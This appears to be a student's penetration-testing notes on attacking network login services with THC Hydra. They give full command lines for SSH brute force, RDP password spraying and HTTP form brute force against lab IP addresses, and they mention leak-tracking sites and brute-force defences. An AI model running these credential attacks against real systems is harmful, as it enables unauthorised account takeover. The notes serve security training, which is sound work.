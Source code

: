 # Attacking Network Services Logins
## SSH and RDP
- THC Hydra
	- Network Password Cracking
	-Uncompress zip
		- gzip -d
	- hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
		- -l = username
		- -P = password list
		- -s = port
		- ssh://$ip = tgt
- ScatteredSecrets
	- track password leaks and compromises and sells plaintext passwords
- WeLeakInfo
	- siezed by the FBI & DOJ
- Password Spraying:
	- hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
		- -L = list of usernames
		- -p = password
		- rdp: = protocol 
- ex:
	- ftp $ip
	- ftp username@$ip
	- scp user@ip:/dir/file /home/kali
	- scp /home/kali/file user@ip:/tmp/file

### HTTP POST Login Form
- Must Have
	- 1 request body
		- i.e. [fm usr=user& fm pwd=password]
	- 1 failed post response indicator (condition string)
		- "Login failed. Invalid username or password"
	- hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
		- -l username
		- -P password list
		- http-post-form
		- [location:login post request body:failed response indicator]
			- failed response indicator shortened to not get false positives
- Brute Force Protection
	- WAF
	- fail2ban
- http-get
- hydra -l admin -P /usr/share/wordlists/rockyou.txt  [$IP] http-get /webpage/
	- or http-get [blank]

## Encryption, Hashing, and Cracking
